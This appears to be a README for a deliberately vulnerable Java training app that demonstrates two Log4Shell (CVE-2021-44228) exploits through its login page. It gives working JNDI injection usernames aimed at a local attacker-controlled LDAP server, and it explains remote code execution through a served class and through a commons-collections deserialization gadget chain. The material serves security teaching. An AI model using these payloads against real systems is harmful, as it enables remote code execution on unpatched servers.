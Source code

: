 # Log4Shell exploits in TODOlist application

This application contains 2 exploits based on [CVE-2021-44228](https://security.snyk.io/vuln/SNYK-JAVA-ORGAPACHELOGGINGLOG4J-2314720)
Both will can be accessed vai de login page.
When a login is wrong or unknown the application will print log this using a vulnerable log4j version in the console exposing the user name.

## Hack 1 for older Java builds `(trustURLCodebase=true`)

These are the Java version where `com.sun.jndi.ldap.object.trustURLCodebase=true` by default.
All JDK version up to 6u211, 7u201, 8u191, and 11.0.1 have this.
Newer version can also be hacked with this method when manually setting `com.sun.jndi.ldap.object.trustURLCodebase=true`

### Server
Start up the log4shell server
- go to `java-goof/log4shell-goof/log4shell-server`
- Start up the server
  - In the IDE (run /src/main/Server.java)
  - Or use maven `mvn exec:java`

### Hack
After startup of the todolist application go to the login page and login with:
- Username: `${jndi:ldap://127.0.0.1:9999/Evil}` (change the IP and port accordingly if not running on localhost)
- Password: `does not matter`

This results in a file written to `/tmp/pwned`

### Explanation
The server starts up 
- jdni server
- http wer server

The log4j string evolves and connects to the LDAP (controlled by the hacker) the LDAP connect to the HTTP server (controlled by the hacker) and sends back a class file `Evil.classs`
This class file contains the remote code execution (calling the runtime with an arbitrary command) in the `getObjectInstance()` method that is called when the object is created on the target machine.
This only works when the JDK setting `com.sun.jndi.ldap.object.trustURLCodebase=true` which is the case with older JDK builds by default.

## Hack 2 all Java build (including the newest builds)

### Server
- same as in Hack 1

## Hack
After startup of the todolist application go to the login page and login with:
- Username: `${jndi:ldap://127.0.0.1:9999/Commons}` (change the IP and port accordingly if not running on localhost)
- Password: `does not matter`

This results in a file written to `/tmp/pwned-commons`

Note: 
When the using a Docker container with tomcat as described in tomcat-rce hack you can do the following
- Username: `${jndi:ldap://host.docker.internal:9999/Commons2}` (change the IP and port accordingly if not running on localhost)
- Password: `does not matter`

This inserts some text to the header file 

### Explanation
For newer JDK builds, where `com.sun.jndi.ldap.object.trustURLCodebase=false` the hack method still works when the classes are already on the classpath.
This mean we can preform an RCE using Java deserialization. 
The applications has uses the `commons-collections 3.1` library that has known deserialization gadget chain embedded. 
The LDAP server now returns a serialized version of this gadget chain. Since the classes are already available we can execute a command.